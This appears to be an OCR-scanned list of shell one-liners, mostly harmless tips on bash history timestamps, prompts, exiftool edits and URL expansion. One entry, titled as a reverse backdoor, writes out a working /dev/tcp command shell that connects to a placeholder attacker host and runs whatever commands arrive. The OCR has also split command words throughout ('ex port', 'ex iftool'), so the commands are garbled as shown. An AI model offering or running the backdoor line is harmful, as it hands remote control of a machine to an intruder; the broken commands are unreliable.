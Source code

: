    ex ec 2>&1

##### Embed .torrent in a .jpg file

   ex iftool '-comment<=ubuntu-11.10-alternate-i386.iso.torrent' hello.jpg

##### Pretend your shell is MS-DOS command.com

   ex port PROMPT_COMMAND=$PROMPT_COMMAND'; export PWD_UPCASE="${PWD^^}"'; export PS1='C:${PWD_UPCASE//\\//\\\\}>'

##### Reverse Backdoor Command Shell using Netcat

   ex ec 5<>/dev/tcp/<your-box>/8080;cat <&5 | while read line; do $line 2>&5 >&5; done

##### IFS - use entire lines in your for cycles

   ex port IFS=$(echo -e "\n")

##### save  date and time for each command in history

   ex port HISTTIMEFORMAT="%h/%d-%H:%M:%S "

##### command to change the exif date time of a image

   ex iftool -DateTimeOriginal='2009:01:01 02:03:04' file.jpg

##### grab all commandlinefu shell functions into a single file, suitable for sourcing.

   ex port QQ=$(mktemp -d);(cd $QQ; curl -s -O http://www.commandlinefu.com/commands/browse/sort-by-votes/plaintext/[0-2400:25];for i in $(perl -ne 'print "$1\n" if( /^(\w+\(\))/ )' *|sort -u);do grep -h -m1 -B1 $i *; done)|grep -v '^' > clf.sh;rm -r $QQ

##### Add timestamp to history

   ex port HISTTIMEFORMAT="%F %T "

##### save  date and time for each command in history

   ex port HISTTIMEFORMAT='%F %T '

##### Bash prompt with user name, host, history number, current dir and just a touch of color

   ex port PS1='\n[\u@\h \! \w]\n\[\e[32m\]$ \[\e[0m\]'

##### Sets shell timeout

   ex port TMOUT=10

##### Convert file type to unix utf-8

   ex  some_file "+set ff=unix fileencoding=utf-8" "+x"

##### Expand shortened URLs

   ex pandurl() { curl -sIL $1 | grep ^Location; }
